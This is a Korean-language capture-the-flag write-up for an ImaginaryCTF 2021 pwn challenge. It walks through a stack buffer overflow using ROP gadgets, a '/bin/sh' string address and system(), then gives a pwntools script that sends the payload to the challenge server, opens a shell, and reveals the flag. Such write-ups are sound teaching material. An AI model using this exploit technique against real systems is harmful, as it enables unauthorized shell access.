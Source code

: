 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-20-00-44.png)

첨부파일

[aaa.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20ImaginaryCTF%20Round10/%26bbb/file/aaa.zip)


# **Write-Up**

flag.txt가 아닌 another_flag.txt를 봐야하는 상황이다.

즉, 0x401E57로 가야하는게 아닌 0x401E68로 가서 return address를 오염시켜 another_flag.txt를 획득해야 한다.

![](images/2022-05-18-20-01-27.png)

another_flag.txt를 조합하기보다는 shell을 획득하는 것이 더 편할것 같다는 판단했다.

즉, 0x401E6E에서 return해서 갈 주소를 0x401E5E로 정할것인데, rdi는 "/bin/sh"이 담겨있어야 한다.

먼저 pop rdi ; ret이 사용되는 주소를 살펴본다.

![](images/2022-05-18-20-01-34.png)

[rp++](https://github.com/0vercl0k/rp/downloads)로 pop rdi ; ret이 사용되는 주소가 여러가지 나오는데 그 중 첫번째 줄을 사용하겠다. (0x40191a)

![](images/2022-05-18-20-01-41.png)

그다음 "/bin/sh"이라는 문자열의 주소를 구한다.

먼저 "/bin/sh"의 offset은 다음과 같다. (0x97895)

![](images/2022-05-18-20-02-06.png)

gdb를 통해서 "/bin/sh"의 주소를 확인한다. (0x400000 + 0x97895)

![](images/image.png.png)

mov eax, 0; system()의 주소를 IDA에서 확인한다. (0x401E5E)

최종 payload는 \x00*40 + (pop rdi ; ret주소) + ("/bin/sh"주소) + (mov eax, 0; system()의 주소)이고, python으로 코딩하면 다음과 같다.

```py
from pwn import *

p = remote('oreos.ctfchallenge.ga', 7331)
p.recvuntil('spaces:')

base_addr = 0x400000
shell_offset = 0x97895
system_addr = 0x401E5E
pop_rdi = 0x40191a

payload = b''
payload += b'\x00'*40
payload += p64(pop_rdi)
payload += p64(base_addr + shell_offset)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

실행 후 interactive모드로 전환되고, cat으로 flag를 확인할 수 있다.

![](images/2022-05-18-20-02-42.png)


# **FLAG**

**ictf{r0p_t0_th3_r3scu3!}**
